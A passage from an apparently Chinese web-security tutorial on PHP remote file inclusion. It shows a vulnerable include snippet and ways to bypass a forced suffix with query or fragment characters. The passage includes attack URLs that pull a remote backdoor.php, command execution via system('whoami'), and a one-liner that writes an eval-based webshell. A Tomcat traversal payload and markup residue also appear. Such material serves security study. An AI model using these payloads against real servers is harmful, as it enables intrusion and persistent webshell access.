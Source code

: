 - Apache Tomcat Directory Traversal(Apache Tomcat 目录遍历)- ..%c1%9c
### <a class="reference-link" name="%E9%81%87%E5%88%B0%E6%8C%87%E5%AE%9A%E5%90%8E%E7%BC%80%E7%9A%84%E6%83%85%E5%86%B5"></a>遇到指定后缀的情况

接着考虑指定后缀的情况。测试代码:

```
&lt;?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?&gt;
```

**<a class="reference-link" name="%E8%A7%A3%E5%86%B3%EF%BC%9AURL"></a>解决：URL**

url格式

```
protocol://hostname[:port]/path/[;parameters][?query]#fragment
```

在远程文件包含漏洞（RFI）中，可以利用query（?）或fragment（#）来绕过后缀限制。那么利用条件就需要是：
1. `allow_url_fopen = On`
1. `allow_url_include = On`
<a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E4%B8%80%EF%BC%9Aquery%EF%BC%88?%EF%BC%89"></a>**姿势一：query（?）**

```
index.php?file=http://remoteaddr/remoteinfo.txt?
```

则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`<br>
问号后面的部分`/test/test.php`，也就是指定的后缀被当作query从而被绕过。

<a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>**注意命令执行和写入木马**

如：`http://x.x.x.x/fileinclude2.php?file=http://x.x.x.x/backdoor.php?`

backdoor.php中的php代码为`&lt;?php system('whoami'); ?&gt;`，结果成功命令执行了

[![](https://p2.ssl.qhimg.com/t01efce432255eb6ff6.png)](https://p2.ssl.qhimg.com/t01efce432255eb6ff6.png)

也可以将php代码替换为`fputs(fopen('hack.php','w'),'&lt;?php [@eval](https://github.com/eval)($_POST[v])?&gt;');?&gt;`写入木马`hack.php`，用shell管理工具连接

<a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E4%BA%8C%EF%BC%9Afragment%EF%BC%88#(%23)%EF%BC%89"></a>**姿势二：fragment（#(%23)）**

```
index.php?file=http://remoteaddr/remoteinfo.txt%23
```

则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`<br>
问号后面的部分`/test/test.php`，也就是指定的后缀被当作fragment从而被绕过。注意需要把`#`进行url编码为`%23`。

<a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>**注意命令执行和写入木马**

